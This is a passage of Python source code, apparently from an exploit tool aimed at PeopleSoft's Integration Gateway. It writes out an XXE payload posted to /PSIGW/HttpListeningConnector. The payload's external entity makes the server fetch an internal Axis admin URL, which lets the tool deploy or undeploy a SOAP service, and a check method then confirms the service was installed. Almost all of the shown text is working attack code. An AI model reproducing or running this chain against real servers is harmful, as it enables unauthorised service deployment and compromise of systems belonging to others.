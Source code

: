 ```py
        </ns1:deployment>
        """ % (self.service_name)

    def soap_service_undeploy(self):
        """SOAP payload to undeploy the service.
        """
        return """
        <ns1:undeployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/">
        <ns1:service name="%s"/>
        </ns1:undeployment>
        """ % (self.service_name, )

    def xxe_ssrf(self, payload):
        """Runs the given AXIS deploy/undeploy payload through the XXE.
        """
        data = """
        <?xml version="1.0"?>
        <!DOCTYPE IBRequest [
        <!ENTITY x SYSTEM "%s">
        ]>
        <IBRequest>
           <ExternalOperationName>&x;</ExternalOperationName>
           <OperationType/>
           <From><RequestingNode/>
              <Password/>
              <OrigUser/>
              <OrigNode/>
              <OrigProcess/>
              <OrigTimeStamp/>
           </From>
           <To>
              <FinalDestination/>
              <DestinationNode/>
              <SubChannel/>
           </To>
           <ContentSections>
              <ContentSection>
                 <NonRepudiation/>
                 <MessageVersion/>
                 <Data>
                 </Data>
              </ContentSection>
           </ContentSections>
        </IBRequest>
        """ % self.url_service(payload)
        r = self.post(
            '/PSIGW/HttpListeningConnector',
            data=self.pxml(data),
            headers={
                'Content-Type': 'application/xml'
            }
        )

    def service_check(self):
        """Verifies that the service is correctly installed.
        """
        r = self.get('/pspc/services')
        return self.service_name in r.text

    def service_deploy(self):
        self.xxe_ssrf(self.soap_service_deploy())

```